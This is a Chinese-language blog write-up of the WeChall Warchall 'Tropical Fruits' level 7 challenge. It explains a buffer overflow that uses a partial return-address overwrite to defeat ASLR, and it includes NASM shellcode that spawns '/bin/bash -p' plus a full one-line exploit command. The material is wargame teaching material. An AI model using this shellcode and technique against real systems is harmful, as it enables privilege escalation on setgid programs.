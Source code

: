 ```yaml
---
title: Tropical Fruits
author: rk700
layout: post
redirect_from: 
  - /writeup/2014/06/19/tropical-fruits
  - /writeup/2014/06/19/tropical-fruits/
tags:
  - wechall
  - exploit
---
```

<http://www.wechall.net/challenge/warchall/tropical/7/index.php>  
这道题overflow很明显，关键是怎样绕过ASLR。

到现在做了这些题目，总结下来要找漏洞的话，最好是能找到不自然的地方。这道题的不自然之处在具体溢出那里，用的是`memcpy`加`strlen`，而一般来说复制字符串直接`strcpy`就够了。所以这里是关键，两种方法相比，`memcpy`不会在最后添null字符，这给了我们提示。另一方面，由于各个库的的地址都随机化了，所以我们用partial EIP overwrite，也就是只修改返回地址的低位。而正是由于`memcpy`我们才不用担心多余的null字符

具体的，随机化只是随机page, 在page内的offset还是不变的。page的大小是4k，也就是说地址的后三位不会被随机化。调用`vulnfunc`后的返回地址是`0x08048540`，我们修改最低位的那个byte，让返回到其他地方。这里我选择返回到`0x08040563`，其内容是`ret`

这样一来，从`vulnfunc`返回后，又调用一次`ret`，其效果是跳转到`vulnfunc`的`argv[1]`那里。幸运的是`argv[1]`的内容正是我们提供的，这样就实现了exploit

下面是shellcode的汇编代码，由于`/bin/sh`被链接到`/bin/bash`了，所以我们需要`-p`选项来保持setgid

{% highlight nasm %}
BITS 32
xor eax, eax

push eax
mov edx, esp ;env
push word 0x702d 
mov ecx, esp ;-p

push eax
push byte 0x68
push 0x7361622f
push 0x6e69622f
mov ebx, esp ;/bin/bash

push eax
push ecx
push ebx
mov ecx, esp ;argv
mov al, 11 ;execve("/bin/bash", ["/bin/bash", "-p", NULL], [NULL])
int 0x80
{% endhighlight %}

编译得到二进制文件，大小是35byte

buffer到返回地址的距离很容易得到，用a填充完后，最后一个byte是0x63，将返回地址的最低位改写：  
{% highlight bash %}
$ ./level7 `perl -e 'print "\x31\xc0\x50\x89\xe2\x66\x68\x2d\x70\x89\xe1\x50\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x51\x53\x89\xe1\xb0\x0b\xcd\x80" . "a"x277 . "\x63"'`
{% endhighlight %}
